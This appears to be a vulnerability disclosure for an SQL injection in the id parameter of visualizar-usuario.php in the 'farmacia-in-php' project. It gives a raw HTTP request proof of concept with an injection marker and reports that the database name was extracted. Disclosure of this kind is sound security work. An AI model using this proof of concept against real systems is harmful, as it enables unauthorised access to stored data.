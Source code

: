 # farmacia-in-php has sql injection in visualizar-usuario.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
/visualizar-usuario.php?id=1

## describe

The visualizar-usuario.php file of the farmacia-in-php system has an SQL injection vulnerability, and the parameter parameter :id can be controlled.  This vulnerability allows a malicious attacker to obtain sensitive database information

**Code analysis**    

The id parameter is obtained and passed to the SQL statement for execution without filtering

![image-20241127114056890](https://github.com/user-attachments/assets/25785838-8615-45dc-b5e9-a040bdc7b32f)



## POC

```
GET /visualizar-usuario.php?id=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

save as  1.txt

**Result**

![image-20241127114130182](https://github.com/user-attachments/assets/7b93aa0e-1a79-4ca2-b4a2-4c4e24532a88)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/5afaaaef-0913-4bb8-ba01-d78d7678b755)